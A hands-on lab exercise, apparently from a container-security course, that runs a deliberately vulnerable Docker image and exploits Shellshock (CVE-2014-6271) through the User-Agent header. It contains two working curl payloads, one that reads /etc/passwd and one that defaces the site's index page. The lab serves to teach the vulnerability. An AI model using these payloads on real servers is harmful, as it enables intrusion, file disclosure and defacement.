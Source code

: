 # Vulnerable Libraries

> Some containers that are often used and available on `DockerHub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock(Bashdoor) is one such vulnerability found in older versions of bash that haven't been updated.

### **Lab Image : Containers**

* Step 1: Run an image that is vulnerable to ShellShock on the provisioned server

```commandline
docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
```

* Step 2: Open another browser tab, on the address bar, add `:8080` and press `Enter`.

* Step 3: From the terminal exploit the vulnerability and access `/etc/passwd` of the vulnerable container

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Step 4: By exploiting ShellShock, deface the website

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Step 5: Open another browser tab, on the address bar, add `:8080` and press `Enter`. and check the site.

## Teardown:

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://nvd.nist.gov/vuln/detail/CVE-2014-6271
* https://hub.docker.com/r/vulnerables/cve-2014-6271/
